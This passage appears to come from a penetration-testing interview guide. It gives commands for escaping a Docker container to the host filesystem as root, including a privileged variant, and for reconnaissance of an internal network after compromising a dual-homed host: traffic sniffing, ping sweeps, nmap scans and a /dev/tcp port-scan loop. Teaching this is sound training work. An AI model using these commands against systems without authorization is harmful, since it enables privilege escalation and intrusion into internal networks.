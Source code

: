 ```bash
docker run -v /:/hostfs -it --rm alpine chroot /hostfs bash
```

`-v /:/hostfs` → Mounts the host’s root (`/`) into the container at `/hostfs`.

`chroot /hostfs bash` → Escapes into the host’s filesystem as root.

Alternative (If Docker CLI is Restricted)

```bash
docker run -it --privileged --rm -v /:/mnt alpine
```

`--privileged` → Grants full host access (even more dangerous).

### 8. You've elevated privileges on the Linux host, and see that it is dual-homed. You can view the internal network. How would you gather information on that internal network?

Now that you've gained root access on a dual-homed Linux host (connected to both an external and internal network), you can pivot into the internal network for reconnaissance. 

- **Network Discovery (Identify Live Hosts & Services)**

a. Check Existing Network Connections

```bash
netstat -tulnp  # Check listening services
ss -tulnp       # Modern alternative to netstat
arp -a          # View ARP cache (hosts recently communicated with)
route -n        # Check routing table (identify internal subnets)
ip a            # List all network interfaces
```

b. Passive Sniffing (Capture Traffic)

```bash
tcpdump -i eth1 -w internal_traffic.pcap   # Replace 'eth1' with internal NIC
```

Analyze later with Wireshark (`scp` the `.pcap` to your machine).

c. Active Scanning (If Stealth is Not Critical)

```bash
# Ping sweep (ICMP)
for i in {1..254}; do ping -c 1 192.168.1.$i | grep "bytes from"; done

# Fast scan with nmap (if installed)
nmap -sn 192.168.1.0/24   # Ping sweep
nmap -sT -p 22,80,443,3389 192.168.1.1-254  # Check common ports
```

Alternative if `nmap` is missing:

```bash
for port in 22 80 443; do
  for ip in {1..254}; do
    timeout 1 bash -c "echo >/dev/tcp/192.168.1.$ip/$port" 2>/dev/null && echo "192.168.1.$ip:$port OPEN" &
  done
done
```
